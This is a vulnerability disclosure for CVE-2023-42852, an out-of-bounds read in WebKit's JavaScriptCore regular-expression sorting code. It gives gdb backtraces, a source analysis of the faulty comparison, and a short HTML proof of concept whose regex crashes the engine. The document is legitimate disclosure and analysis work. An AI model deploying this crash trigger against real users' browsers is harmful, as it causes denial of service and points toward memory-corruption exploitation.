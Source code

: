 Originally reported in the Chromium bug tracker as [bug #1471025](https://bugs.chromium.org/p/chromium/issues/detail?id=1471025), now in the new Chromium bug tracker as [bug #40926043](https://issues.chromium.org/issues/40926043).

Chromium staff then reported to Apple on the [WebKit Bugzilla bug #260173](https://bugs.webkit.org/show_bug.cgi?id=260173).

Assigned [CVE-2023-42852](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-42852), credited to Pedro Ribeiro (`@pedrib1337`) and Vitor Pedreira (`@0xvhp_`) of Agile Information Security.

[Disclosed](https://support.apple.com/en-us/109053) [and](https://support.apple.com/en-us/109048) [credited](https://support.apple.com/en-us/109052) [in multiple](https://support.apple.com/en-us/109051) [Apple](https://support.apple.com/en-us/109049) [advisories](https://support.apple.com/en-us/109047), as well as by [WebKitGTK](https://webkitgtk.org/security/WSA-2023-0010.html).

The original bug report follows below, as well as the PoC. This issue was fixed by `commit 81ec83a` (https://commits.webkit.org/270215@main).

===

**VULNERABILITY DETAILS**   
The string below is interpreted by JavaScriptCore (JSC) as a JavaScript regular expression:  
  
```js  
/[\q{|34||78}]\*/v  
```  
  
Running this testcase with JSC under gdb results in the following backtrace:  
  
```c  
[#0] 0x369832fb3ccc → mov ebp, eax  
[#1] 0x369832f64ef2 → raise()  
[#2] 0x369832f4f472 → abort()  
[#3] 0x1eb12be13eaa → WTF::CrashOnOverflow::crash()  
[#4] 0x1eb12be13ea1 → WTF::CrashOnOverflow::overflowed()  
[#5] 0x1eb12bf1d9db → WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>::at(this=0x7ffe9ca17bb0, i=0xffffffffffffffff)  
[#6] 0x1eb12de12d35 → WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>::operator[](this=0x7ffe9ca17bb0, i=0xffffffffffffffff)  
[#7] 0x1eb12deb9401 → JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(a=@0x7ffe9ca17bb0, b=@0x1df75c028e10)  
[#8] 0x1eb12deb9463 → JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>&)::{lambda(WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&, WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&)#1}::operator()(WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&, WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&) const(__closure=0x7ffe9ca17ba7, a=@0x7ffe9ca17bb0, b=@0x1df75c028e10)  
[#9] 0x1eb12dedbfd3 → gnu_cxx::ops::_Val_comp_iter<JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>&)::{lambda(WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&, WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc> const&)#1}>::operator()<WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>, WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>\*>(WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>&, WTF::Vector<int, 0ul, WTF::CrashOnOverflow, 16ul, WTF::FastMalloc>\*)(this=0x7ffe9ca17ba7, val=@0x7ffe9ca17bb0, it=0x1df75c028e10)  
```  
  
Th problem occurs in the function `JSC::Yarr::CharacterClassConstructor::compareUTF32Strings()`. To understand the problem, the function `JSC::Yarr::CharacterClassConstructor::sort()` is also important.  
The crash occurs when JSC tries to sort vectors.  
  
Below is the function `JSC::Yarr::CharacterClassConstructor::sort()`:  
  
```js  
static void sort(Vector<Vector<UChar32>>& utf32Strings)  
	{         
		std::sort(utf32Strings.begin(), utf32Strings.end(), [](const Vector<UChar32>& a, const Vector<UChar32>& b)   
			{  
				return compareUTF32Strings(a, b) < 0;  
			});  
	}  
```  
  
`utf32Strings` of type `Vector<Uchar32>` is being sorted when this crash occurs.  
  
From the lambda expression in the function, we can see that this vector stores vector pointers, as confirmed under gdb:  
  
```shell  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────  
   0x1eb12deb948b <JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int,+0> call   0x1eb12cffa588 <_ZN3WTF6VectorINS0_IiLm0ENS_15CrashOnOverflowELm16ENS_10FastMallocEEELm0ES1_Lm16ES2_E5beginEv>  
   0x1eb12deb9490 <JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int,+0> mov    rsi, rbx  
   0x1eb12deb9493 <JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int,+0> mov    rdi, rax  
 → 0x1eb12deb9496 <JSC::Yarr::CharacterClassConstructor::sort(WTF::Vector<WTF::Vector<int,+0> call   0x1eb12dec0b9d <_ZSt4sortIPN3WTF6VectorIiLm0ENS0_15CrashOnOverflowELm16ENS0_10FastMallocEEEZN3JSC4Yarr25CharacterClassConstructor4sortERNS1_IS4_Lm0ES2_Lm16ES3_EEEUlRKS4_SC_E_EvT_SE_T0_>  
   ↳  0x1eb12dec0b9d <void+0>         push   rbp  
	  0x1eb12dec0b9e <void+0>         mov    rbp, rsp  
	  0x1eb12dec0ba1 <void+0>         sub    rsp, 0x20  
	  0x1eb12dec0ba5 <void+0>         mov    QWORD PTR [rbp-0x8], rdi  
	  0x1eb12dec0ba9 <void+0>         mov    QWORD PTR [rbp-0x10], rsi  
	  0x1eb12dec0bad <void+0>         call   0x1eb12dec3cc0 <_ZN9gnu_cxx5ops16__iter_comp_iterIZN3JSC4Yarr25CharacterClassConstructor4sortERN3WTF6VectorINS6_IiLm0ENS5_15CrashOnOverflowELm16ENS5_10FastMallocEEELm0ES7_Lm16ES8_EEEUlRKS9_SD_E_EENS0_15_Iter_comp_iterIT_EESG_>  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────  
_ZSt4sortIPN3WTF6VectorIiLm0ENS0_15CrashOnOverflowELm16ENS0_10FastMallocEEEZN3JSC4Yarr25CharacterClassConstructor4sortERNS1_IS4_Lm0ES2_Lm16ES3_EEEUlRKS4_SC_E_EvT_SE_T0_ (  
   $rdi = 0x001df75c028e00,  
   $rsi = 0x001df75c028e40,  
   $rdx = 0x001df75c028e00  
)  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:../../Source/Ja[...].cpp+435 ────  
	430      }  
	431    
	432      static void sort(Vector<Vector<UChar32>>& utf32Strings)  
	433      {  
	434          std::sort(utf32Strings.begin(), utf32Strings.end(), [](const Vector<UChar32>& a, const Vector<UChar32>& b)  
 →  435              {  
	436                  return compareUTF32Strings(a, b) < 0;  
	437              });  
	438      }  
	439    
	440      std::unique_ptr<CharacterClass> charClass()  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
gef➤  x/10gx 0x001df75c028e00  
0x1df75c028e00: 0x0000000000000000      0x0000000000000000  
0x1df75c028e10: 0x00001df75c006c20      0x0000000200000002  
0x1df75c028e20: 0x0000000000000000      0x0000000000000000  
0x1df75c028e30: 0x00001df75c006c30      0x0000000200000002  
0x1df75c028e40: 0x0000000000000000  
```  
  
With the GDB output we can conclude that the memory addresses of the Vector `utf32String` starts at `0x1df75c028e00` and ends at `0x1df75c028e40`.   
  
Only 2 pointers ared stored and metadata is stored right after that, after which comes null bytes.  
  
```shell  
gef➤  x/2gx 0x00001df75c006c20  
0x1df75c006c20: 0x0000003400000033      0x0000000000000000  
gef➤  x/2gx 0x00001df75c006c30  
0x1df75c006c30: 0x0000003800000037      0x0000000000000000  
```  
  
From the above we can conclude that `uft32Strings` vector stores vector pointers to the values passed in the regular expression between the "|", as well as their metadata. In this case it will be: `NULL|34|NULL|78`.  
  
  
  
To perform the sort the size of vectors will be compared in the function `JSC::Yarr::CharacterClassConstructor::compareUTF32Strings()` in order to sort the Vector utf32Strings in descending order.  
  
```js  
static ALWAYS_INLINE int compareUTF32Strings(const Vector<UChar32>& a, const Vector<UChar32>& b)   
	{  
				//[1] Longer strings before shorter.  
		if (a.size() > b.size())   
			return -1;  
  
				//[2]  
		if (a.size() < b.size())   
			return 1;  
  
				//[3] Lexically sort for same length strings.  
		for (unsigned i = 0; i < a.size(); ++i) {  
			if (a[i] < b[i])  
				return -1;  
		}  
  
				//[4]  
		return a[a.size() - 1] > b[a.size() - 1] ? 1 : 0;   
	}  
```  
  
The problem happens when comparing the sizes of NULLs. That is, when `a.size()=0` and `b.size()=0`.  
  
The crash occurs in [4], because:  
- `a.size()` == `b.size()` so  the returns in [1] nor [2] are not triggered  
- `i` == `a.size()` == 0 so we never enter the for cycle in [3]  
- In [4], since `a.size()` == `0`, `a[-1]` is outside the vector's memory range hence it crashes with an overflow:  
  
We can see this in gdb:  
  
```shell  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────  
   0x1eb12deb93e6 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    rdi, rax  
   0x1eb12deb93e9 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> call   0x1eb12bf0d0d4 <_ZNK3WTF6VectorIiLm0ENS_15CrashOnOverflowELm16ENS_10FastMallocEE4sizeEv>  
   0x1eb12deb93ee <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> lea    rdx, [rax-0x1] //HERE  
 → 0x1eb12deb93f2 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    rax, QWORD PTR [rbp-0x28]  
   0x1eb12deb93f6 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    rsi, rdx  
   0x1eb12deb93f9 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    rdi, rax  
   0x1eb12deb93fc <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> call   0x1eb12de12d12 <_ZNK3WTF6VectorIiLm0ENS_15CrashOnOverflowELm16ENS_10FastMallocEEixEm>  
   0x1eb12deb9401 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    ebx, DWORD PTR [rax]  
   0x1eb12deb9403 <JSC::Yarr::CharacterClassConstructor::compareUTF32Strings(WTF::Vector<int,+0> mov    rax, QWORD PTR [rbp-0x28]  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:../../Source/Ja[...].cpp+430 ────  
	425          for (unsigned i = 0; i < a.size(); ++i) {  
	426              if (a[i] < b[i])  
	427                  return -1;  
	428          }  
	429          return a[a.size() - 1] > b[a.size() - 1] ? 1 : 0;  
	430      }  
	431    
	432      static void sort(Vector<Vector<UChar32>>& utf32Strings)  
	433      {  
	434          std::sort(utf32Strings.begin(), utf32Strings.end(), [](const Vector<UChar32>& a, const Vector<UChar32>& b)  
	435              {  
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
gef➤  print $rdx  
$1 = 0xffffffffffffffff  
```  
  
**VERSION**   
Chrome on iOS (tested latest WebKit git f818e6d361ac1db886052adeb3e2f6377513a6b0 from Aug 6)  
  
**REPRODUCTION CASE**   
./WebKit/Tools/Scripts/run-minibrowser poc2.html  
  
**CREDIT INFORMATION**   
Reporter credit: Pedro Ribeiro (@pedrib1337) and Vitor Pedreira (@0xvhp_) of Agile Information Security  

`poc2.html`:
```html
<!DOCTYPE html>
<html>
<meta charset="utf-8">

<script>/[\q{|34||78}]*/v</script>

<body>
yolo
</body>

</html>
```
